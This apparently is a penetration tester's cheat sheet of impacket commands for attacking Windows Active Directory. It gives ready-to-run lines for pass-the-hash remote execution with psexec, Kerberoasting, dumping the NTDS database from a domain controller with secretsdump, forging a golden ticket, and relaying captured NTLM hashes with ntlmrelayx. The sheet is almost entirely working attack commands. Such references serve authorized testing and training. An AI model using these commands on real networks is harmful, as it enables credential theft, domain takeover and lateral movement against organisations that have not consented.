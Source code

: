 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

impacket

Passing the hash only works with NTLM, not NTLMv2

PSExec usage:
~~~bash
impacket-psexec "username":password@ipaddress
~~~

PSExec usage with a hash:
~~~bash
impacket-psexec "username":@ipaddress -hashes FullNTLM:Hash
~~~

Kerberoasting SPN with Valid Credentials:
~~~bash
impacket-GetUserSPNs Domain/Username:Password -dc-ip [Domain Controller IP] -request -output krb5_ticket.txt
~~~

SMB Server with SMBv2 Support:
~~~bash
impacket-smbserver share 'pwd' -smb2support
~~~

RPCDump:
~~~bash
impacket-rpcdump @victimIP | egrep 'MS-RPRN|MS-PAR'
~~~

Convert .kirbi to .ccache:
~~~bash
impacket-ticketconverter user.kirbi user.ccache
~~~

dumping ntds from DC using ccache and secrets dump:
~~~bash
KRB5CCNAME=/home/kali/user.ccache impacket-secretsdump -k -no-pass -dc-ip DC_IP -target-ip DC_IP Server.FQDN
~~~

Generate Golden Ticket:
~~~bash
impacket-ticketer -nthash [DA NTLM Hash] -domain-sid [Domain SID] -domain FQDN.Domain DA_User
~~~

NTLMRelayX - Relay SMB/WPAD captured hashes to a target list and create socks proxy to the hosts via SMB and create a file with the captured hashes:
~~~bash
impacket-ntlmrelayx -tf targets.txt -smb2support -socks --output-file Captured_Hashes.txt
~~~
